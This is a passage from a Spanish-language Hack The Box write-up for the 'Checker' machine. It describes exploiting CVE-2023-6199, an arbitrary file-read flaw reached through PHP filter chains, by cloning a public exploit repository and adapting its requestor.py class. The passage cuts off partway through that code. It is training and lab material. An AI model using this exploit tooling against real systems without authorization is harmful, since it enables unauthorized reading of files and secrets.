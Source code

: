 
---
## CVE Exploitation 2
### Poc

![](assets/img/htb-writeup-checker/checker3_1.png)

Para aprovecharme de la vulnerabilidad [CVE-2023-6199](https://nvd.nist.gov/vuln/detail/cve-2023-6199) presente, que permite la lectura arbitraria de archivos locales mediante una cadena de PHP filter chains, debo realizar una serie de pasos.

* Clono el repositorio del exploit.

```terminal
/home/kali/Documents/htb/machines/checker:-$ git clone https://github.com/synacktiv/php_filter_chains_oracle_exploit
```

* Modifico el archivo `filters_chain_oracle_exploit/filters_chain_oracle/core/requestor.py` para adaptarlo.

```python
import json
import requests
import time
from filters_chain_oracle.core.verb import Verb
from filters_chain_oracle.core.utils import merge_dicts
import re
import base64

"""
Class Requestor, defines all the request logic.
"""
class Requestor:
    def __init__(self, file_to_leak, target, parameter, data="{}", headers="{}", verb=Verb.POST, in_chain="", proxy=None, time_based_attack=False, delay=0.0, json_input=False, match=False):
        self.file_to_leak = file_to_leak
        self.target = target
        self.parameter = parameter
        self.headers = headers
        self.verb = verb
        self.json_input = json_input
        self.match = match
        print("[*] The following URL is targeted : {}".format(self.target))
```